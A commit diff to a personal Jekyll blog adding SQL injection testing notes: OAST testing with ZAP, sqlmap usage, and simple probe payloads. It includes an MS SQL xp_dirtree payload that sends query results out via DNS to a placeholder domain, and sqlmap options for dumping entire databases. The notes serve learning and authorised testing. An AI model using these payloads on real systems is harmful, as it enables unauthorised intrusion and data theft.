

Before and after one commit to chanukyapl/blogs, a Jekyll site: the page built from docs/SQL_injection/SQL_injection.md, in a window 1280 px wide and 1400 px high, scrolled down 851 px. Shown: the whole window at 89% size, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
sql injection writeups

```diff
--- /dev/null
+++ b/docs/SQL_injection/OASTTesting.md
@@ -0,0 +1,46 @@
+---
+layout: default
+title: My way of testing SQL Injection - Part 2 - OAST Testing
+parent: SQL Injection
+nav_order: 2
+---
+
+### What is OAST testing?
+
+OAST testing is Out of band Application Security Testing where we send a payload to the server that causes an interaction with an external system we have control over, that sits outside the target domain.
+
+### Why is OAST testing is important?
+
+You can directly exfiltrate data via the out-of-band channel, for example by placing the data into a DNS lookup for a domain that you control.
+
+### How OAST testing works?
+
+Let us consider we have a domain, we own. If anyone send DNS lookup for that domain, we will be able to see the details for that request. So let use now consider, we created a payload that will send the DNS lookup along with the details from the target system to our domain , we will be able to see the details in the dump.
+
+### OAST testing using ZAP
+
+#### Setting up ZAP for OAST testing
+
+*   Download the latest OWASP ZAP.
+*   Go to tools → Options
+*   You can search for OAST.
+*   In OAST options screen, go to BOAST tab
+*   You can see the server URI and Polling frequency inputs.
+*   You can set up your own server .Server URI address should point to the URI that will be used for registrations and polling.A valid URI will include the scheme, the host, the port, and the `/events` endpoint. The host must be running a working instance of BOAST. An example of a valid URI is: [`https://example.com:1337/events`.](https://example.com:1337/events.)
+*   click on register.
+*   You will notice that a new entry has been added to _Active Servers_ table. You can copy the payload with `ctrl` + `C` to use it in your attacks.
+*   ZAP will now poll this server at the frequency you set and report all interactions (DNS, HTTP) with the payload URI in the OAST tab in the main screen.
+
+Similar to ZAP, you can use Burpsuite collaborator which comes with [Burp Suite Enterprise Edition](https://portswigger.net/burp/enterprise) and [Burp Suite Professional](https://portswigger.net/burp/pro)
+
+#### Testing
+
+Now you have the payload. For example,  nbtgsasdaspgvy6glznbom2lj5q.odiss.eu .
+
+If you go to the browser and enter this URL [http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu](http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu) , then you will see the entry in the OAST tab which says you got the get request for the URL http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu
+
+### Usage of OAST in SQL injection
+
+Now let us consider, your target server using MS DB. You can confirm the vulnerability by using this payload `exec master..xp_dirtree '//DOMAIN-NAME/a'`
+
+If you want to ex-filtrate the data, you can use the payload `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.DOMAIN-NAME/a"')`
--- /dev/null
+++ b/docs/SQL_injection/SQLAutomation.md
@@ -0,0 +1,51 @@
+---
+layout: default
+title: My way of testing SQL Injection - Part 1 - Simple Payload verification
+parent: SQL Injection
+nav_order: 2
+---
+
+### What is SQLMAP?
+
+sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
+
+### Why SQLMAP?
+
+ SQLMAP comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.
+
+### Installation of SQLMAP
+
+We can clone the repository by using the command
+
+`git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`
+
+### Help
+
+we can change into sqlmap-dev directory and run the command `sqlmap.py -h`
+
+We can see the whole list of options
+
+### Most useful options
+
+*   \-p parameter → It is used to determine the parameter that we want to analyze
+*   \--current-user → We extract the username with which we interact with the database
+*   \--current-db → It extracts the name of the database in which we are
+*   \--dbs → It will give us the number of databases and will show us the name of each of them
+*   \-D name → It allows us to enter the selected database
+*   \--tables → It will show us the number of tables within a database and the names of each of the tables
+*   \-T name → It allows us to enter the selected table
+*   \--column → It will extract the number of the columns within a table and show us the name of each of them
+*   \-C name → It allows us to select the column
+*   \--dump → It allows us to extract content from the database
+*   \--dump-all → It extracts everything from the database |
+
+### Most useful commands
+
+Using the command `sqlmap.py -u <URL> --dbs` , we can test the GET method url that will fetch databases if the endpoint is vulnerable to SQL injection.
+
+For POST method we can use the command `sqlmap.py -u "URL" --method POST --data " param1= 1 & param2 = 1" --dbs`
+
+### What is next?
+
+*   After your reconnaissance, you will get the list of endpoints
+*   You can use sqlmap to validate the endpoints
--- a/docs/SQL_injection/SQL_injection.md
+++ b/docs/SQL_injection/SQL_injection.md
@@ -1,6 +1,6 @@
 ---
 layout: default
-title: sql_injection
+title: SQL Injection
 nav_order: 3
 has_children: true
 permalink: /cybersecurity/sql_injection
@@ -37,13 +37,13 @@ In most of the cases, a person can modify or delete the data, causing persistent
 
 ### My way of testing an SQL injection
 
-*   Simple payloads
-*   OAST testing
-*   Automation
+*   [Simple payloads]()
+*   [OAST testing]()
+*   [Automation]()
 
 Best effective way of exploiting SQL injection is OAST testing(Out of band Application Security Testing)
 
-OAST testing
+OAST testing]()
 
 *   Gather the Generate set of payloads as per the requirement to check as OAST Testing
 *   Test them
--- /dev/null
+++ b/docs/SQL_injection/simplePayload.md
@@ -0,0 +1,48 @@
+---
+layout: default
+title: My way of testing SQL Injection - Part 1 - Simple Payload verification
+parent: SQL Injection
+nav_order: 2
+---
+
+### Use of comments
+
+Every SQL server may contain its own type of comments. But mostly we can try `--`
+
+we can use comments to trigger the error by avoiding the completion of full query.
+
+If we observe any anomaly then we can try any other methods to confirm whether it is vulnerable to SQL injection. Most of the times these simple payloads will be blocked by firewall.
+
+### Use of single quote
+
+we can use single quote `'` to break the query. If we observe any anomaly then we can try any other methods to confirm whether it is vulnerable to SQL injection. Most of the times these simple payloads will be blocked by firewall.
+
+### Usage of logic conditions
+
+we can use simple OR or AND logics to confirm the SQL injection. For eg:  `‘OR 1=1`  or  `’OR 1=2`
+
+If we want to move forward and would like to know more about the data present, then we can use case statement. Here it will be different for different SQL servers.
+
+Let us consider the backend server is using Microsoft DB . if we send the following query as a input
+
+`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
+
+then if our condition was met then it will throw an error saying divided by zero and if we can observe any anomaly then we can confirm that backend SQL server may be MS SQL and create payloads to extract the desired data.
+
+Most of the cases the response we get will be default error set by the server. In that case we can not get the verify the vulnerability.
+
+### Time delay based queries
+
+This will be most effective way to know whether the endpoint is vulnerable to SQL injection.
+
+Here we introduce the time delay in the query, where the data will be sent after certain time specified. With that we can confirm the endpoint is vulnerable to SQL injection.
+
+Every SQL server has its own way of implementing time delays. For eg:
+
+Let us consider the backend server is using MySQL server. If we use the query  `Select sleep(10)`  then we will get the response from the backend after 10 sec.
+
+Unless the response is not depends on the input we gave, this method will be very effective in finding the Vulnerable endpoint.
+
+We can combine conditional based and time delay methods for finding the data we need.
+
+We can use the [cheat sheet given by the portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) to test the vulnerability.
```
